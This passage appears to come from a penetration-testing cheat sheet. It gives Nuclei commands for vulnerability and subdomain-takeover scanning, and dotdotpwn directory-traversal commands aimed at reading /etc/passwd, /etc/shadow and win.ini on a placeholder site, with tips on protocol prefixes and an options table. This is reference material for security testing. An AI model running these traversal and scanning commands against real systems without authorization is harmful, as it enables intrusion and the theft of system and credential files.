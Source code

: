 Download the latest [Nuclei templates](https://github.com/projectdiscovery/nuclei-templates/releases).

To download and/or update Nuclei templates:

```bash
mkdir -p ~/nuclei-templates && nuclei -ut ~/nuclei-templates
```

Vulnerability scan (all templates):

```fundamental
nuclei -c 500 -o nuclei_results.txt -l subdomains_live.txt

cat nuclei_results.txt | grep -Po '(?<=\]\ ).+' | sort -uf > nuclei_sorted_results.txt
```

Only subdomain takeover:

```fundamental
nuclei -c 500 -t ~/nuclei-templates/takeovers -o nuclei_takeover_results.txt -l subdomains_live.txt
```

### dotdotpwn

Traverse a path (e.g. `somesite.com/../../etc/shadow`):

```fundamental
dotdotpwn -m http -f /etc/passwd -k root -h somesite.com

dotdotpwn -m http -S -f /windows/win.ini -k mci -h somesite.com

dotdotpwn -m http-url -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=TRAVERSAL'

dotdotpwn -m http-url -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=file://TRAVERSAL'
```

Try to prepend a protocol such as `file://`, `gopher://`, `dict://`, `php://`, `jar://`, `tftp://`, etc. to the file path.

Check some additional directory traversal tips at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md). Credits to the author!

| Option | Description |
| --- | --- |
| -m | Module (http, http-url, ftp, tftp payload, stdout) |
| -h | Hostname |
| -O | Operating System detection for intelligent fuzzing (nmap) |
| -o | Operating System type if known ("windows", "unix", or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (default: according to OS detected) |
| -S | Use SSL for HTTP and Payload module (not needed for http-url) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -k | Text pattern to match in the response |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |
| -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot(at)dot.pwn') |